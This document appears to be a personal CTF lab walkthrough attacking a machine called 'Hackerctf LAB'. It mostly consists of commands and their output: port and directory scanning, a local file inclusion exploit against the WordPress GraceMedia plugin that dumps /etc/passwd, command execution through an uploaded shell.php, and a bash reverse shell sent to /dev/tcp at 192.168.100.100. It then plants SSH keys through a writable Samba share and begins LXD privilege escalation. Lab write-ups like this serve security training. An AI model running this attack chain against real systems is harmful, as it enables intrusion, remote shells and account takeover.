

## init
```bash
arp-scan -I wlo1 --localnet
ping -c 1 192.168.100.101

nmap -p- --open --min-rate 5000 -vvv -n -sS -Pn 192.178.100.101 -oG allPorts
nmap -sCV -p22,80,139,445,10123 192.168.100.101 -oN target

whatweb http://192.168.100.101 # VIew all http services
nmap --script http-enum -p80 192.168.100.101 -oN webScan
# ans
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.46 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.46 (ubuntu)'
|_  /server/: Potentially interesting directory w/ listing on 'apache/2.4.46 (ubuntu)'

whatweb http://192.168.100.101:10123
# ans
http://192.168.100.101:10123 [200 OK] Country[RESERVED][ZZ], HTTPServer[SimpleHTTP/0.6 Python/3.9.4], IP[192.168.100.101], Python[3.9.4], Title[Directory listing for /]

# Check url pages
http://192.168.100.101
http://192.168.100.101:10123 # Directory listing

# Using dirb
dirb http://192.168.100.101 /usr/share/wordlists/dirb/common.txt
>
http://192.168.100.101/wp/ # Searched using dirb
# We can search wp-content to view plugins directory listing and use vulnerabilities that can be used in the plugin version

curl -s -X GET "http://192.168.100.101/wp/" | grep "plugins"
# ans
<script type='text/javascript' src='http://192.168.100.101/wp/wp-content/plugins/gracemedia-media-player/jwplayer/jwplayer.html5.js?ver=5.8-alpha-50812' id='gm_videojs-js'></script>
<script type='text/javascript' src='http://192.168.100.101/wp/wp-content/plugins/gracemedia-media-player/jwplayer/jwplayer.js?ver=5.8-alpha-50812' id='gm_swfobject-js'></script>

searchsploit gracemedia
# ans
----------------------------------------------- ---------------------------------
 Exploit Title                                 |  Path
----------------------------------------------- ---------------------------------
WordPress Plugin GraceMedia Media Player 1.0 - | php/webapps/46537.txt
----------------------------------------------- ---------------------------------

searchsploit -x php/webapps/46537.txt
# ans
IV. PROOF OF CONCEPT
-------------------------
The following URL have been confirmed that is vulnerable to local file
inclusion.

Local File Inclusion POC:

GET
/wordpress/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../etc/passwd

curl -s -X GET "http://192.168.100.101/wp/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../etc/passwd" --path-as-is
# ans
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
jarves:x:1000:1000:jarves:/home/jarves:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false

curl -s -X GET "http://192.168.100.101/wp/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../home/jarves/upload/shell.php&cmd=whoami" --path-as-is
# ans
www-data
www-data# 

# shell.php from directory listing downloads
# Reverse shell
<>
curl -s -X GET "http://192.168.100.101/wp/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../home/jarves/upload/shell.php&cmd=bash -c \"bash -i >& /dev/tcp/192.168.100.100/443 0>&1\"" --path-as-is

curl -s -X GET "http://192.168.100.101/wp/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../home/jarves/upload/shell.php&cmd=bash+-c+\"bash+-i+>%26+/dev/tcp/192.168.100.100/443+0>%261\"" --path-as-is

script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
export TERM=xterm-256color
source /etc/skel/.bashrc

whoami
hostname -I
cd /home/jarves
ls -la

# Using samba
smbclient -L 192.168.100.101 -N # no credentials | NULL session
# ans
	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	welcome         Disk      Welcome to Hackerctf LAB
	IPC$            IPC       IPC Service (hackerctflab server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 192.168.100.101 (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available

smbmap -H 192.168.100.101
# ans
[+] IP: 192.168.100.101:445	Name: 192.168.100.101                                   
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	welcome                                           	READ, WRITE	Welcome to Hackerctf LAB
	IPC$                                              	NO ACCESS	IPC Service (hackerctflab server (Samba, Ubuntu))

# We have read and write permissions
smbclient //192.168.100.101/welcome -N

```


```bash
# Creating a .ssh file using samba
help
# ans
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             
l              mask           md             mget           mkdir          
mkfifo         more           mput           newer          notify         
open           posix          posix_encrypt  posix_open     posix_mkdir    
posix_rmdir    posix_unlink   posix_whoami   print          prompt         
put            pwd            q              queue          quit           
readlink       rd             recurse        reget          rename         
reput          rm             rmdir          showacls       setea          
setmode        scopy          stat           symlink        tar            
tarmode        timeout        translate      unlock         volume         
vuid           wdel           logon          listconnect    showconnect    
tcon           tdis           tid            utimes         logoff

# We can use mkdir command to create a directory
mkdir .ssh

# In remote machine, we can see the current created file
drwxr-xr-x 5 jarves jarves 4096 Apr 30 02:29 .
drwxr-xr-x 3 root   root   4096 May  7  2021 ..
-rw------- 1 jarves jarves   72 May  9  2021 .bash_history
-rw-r--r-- 1 jarves jarves  220 Mar 19  2021 .bash_logout
-rw-r--r-- 1 jarves jarves 3771 Mar 19  2021 .bashrc
drwx------ 2 jarves jarves 4096 May  7  2021 .cache
-rw------- 1 jarves jarves   18 May  8  2021 .mysql_history
-rw-r--r-- 1 jarves jarves  807 Mar 19  2021 .profile
drwxr-xr-x 2 jarves jarves 4096 Apr 30 02:29 .ssh # created with samba like jarves user
-rw-r--r-- 1 jarves jarves    0 May  8  2021 .sudo_as_admin_successful
-rw-r--r-- 1 root   root      0 May  7  2021 secrets
-rw-r--r-- 1 root   root     82 May  7  2021 something
drwxrwxrwx 2 root   root   4096 May  9  2021 upload

cd .ssh

# Create ssh files
ssh-keygen # in local machine
cat ~/.ssh/id_rsa.pub
<>

cat ~/.ssh/id_rsa.pub > authorized_keys # in local
put authorized_keys # in remote. file must be in the same directory

ssh jarves@192.168.1.3 

id
# ans
uid=1000(jarves) gid=1000(jarves) groups=1000(jarves),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd) # is not a good idea that a user form part to docker and lxd group

searchsploit lxd
# ans
Ubuntu 18.04 - 'lxd' Privilege Escalation                                                                | linux/local/46978.sh

searchsploit -m linux/local/46978.sh
mv 46978.sh lxd_privilege.sh

# Download
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine

bash build-alpine

# lxd make a copy of the current system into a mount /mnt and we can view all files of the machines like root


```